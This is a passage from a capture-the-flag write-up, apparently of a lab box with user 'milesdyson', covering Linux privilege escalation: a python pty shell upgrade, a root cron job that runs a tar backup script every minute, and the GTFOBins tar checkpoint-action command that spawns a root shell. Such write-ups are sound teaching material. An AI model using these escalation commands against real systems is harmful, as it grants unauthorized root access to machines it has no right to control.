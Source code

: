 ## Privilege escalation

A better shell:

    $ python -c 'import pty; pty.spawn("/bin/bash")'

Explore:

    $ cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.
    
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    # m h dom mon dow user	command
    */1 *	* * *   root	/home/milesdyson/backups/backup.sh
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #

The `backup.sh` script in `/home/milesdyson/backups` uses the `tar` command-line tool to archive the contents of 
the web application stored in `/var/www/html` and place the backups in the backup folder. The script is executed 
by root every minute.

Acoording to [GTFOBins tar](https://gtfobins.github.io/gtfobins/tar/), tar can be exploited when running as 
root (sudo):

    tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

Tar has an argument called `–checkpoint`, which displays a "progress" message every time n number of files have 
been archived. This can be used in concatenation with the `–checkpoint-action` flag, which executes an action, 
in the form of a binary or script, whenever a checkpoint is reached.

